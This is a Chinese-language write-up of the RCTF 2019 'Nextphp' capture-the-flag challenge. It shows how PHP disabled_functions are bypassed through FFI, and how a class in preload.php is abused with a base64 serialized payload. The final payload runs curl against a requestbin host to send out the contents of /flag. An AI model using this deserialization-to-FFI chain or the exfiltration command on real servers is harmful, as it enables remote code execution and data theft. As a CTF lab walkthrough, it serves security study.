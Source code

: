 # RCTF 2019

## Nextphp

直接给了webshell  看一眼phpinfo

``disabled_function`` ban了一堆，那么显然考察的是``bypass  disabled_function``

搜集信息

这里用了PHP7.4 

```
FFI support	enabled
open_basedir	/var/www/html	/var/www/html
opcache.preload	/var/www/html/preload.php	/var/www/html/preload.php
```

根据官方文档``FFI``是可以直接调用系统函数的

比如这样

```php
<?php
$ffi = FFI::cdef("int system(const char *command);");
$ffi->system("id > /tmp/eki");
echo file_get_contents("/tmp/eki");
@unlink("/tmp/eki");
```

但是有个限制是``FFI API``仅能适用于预加载文件，也就是该题的``preload.php``

蚁剑连上看下preload.php是啥

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'print_r',
        'arg' => '1'
    ];

    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }

    public function __serialize(): array {
        return $this->data;
    }

    public function __unserialize(array $data) {
        array_merge($this->data, $data);
        $this->run();
    }

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }

    public function __get ($key) {
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

    public function __construct () {
        throw new \Exception('No implemented');
    }
}

```

然后我们就通过这个类反序列化来搞

直接修改下$data即可
```php
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int php_exec(int type, char *cmd);' //调用php执行命令的函数
    ];
```

Payload:
```
?a=$a=unserialize(base64_decode("QzoxOiJBIjo5Nzp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czozNDoiaW50IHBocF9leGVjKGludCB0eXBlLCBjaGFyICpjbWQpOyI7fX0="));var_dump($a->ret->php_exec(2,%27curl%20http://http.requestbin.buuoj.cn/1f4vjz01?a=`cat%20/flag`%27));
```
### 参考资料

opcache.preload:

https://wiki.php.net/rfc/preload

FFI 的官方文档：

https://www.php.net/manual/en/ffi.examples-basic.php

https://www.php.net/manual/en/ffi.examples-callback.php



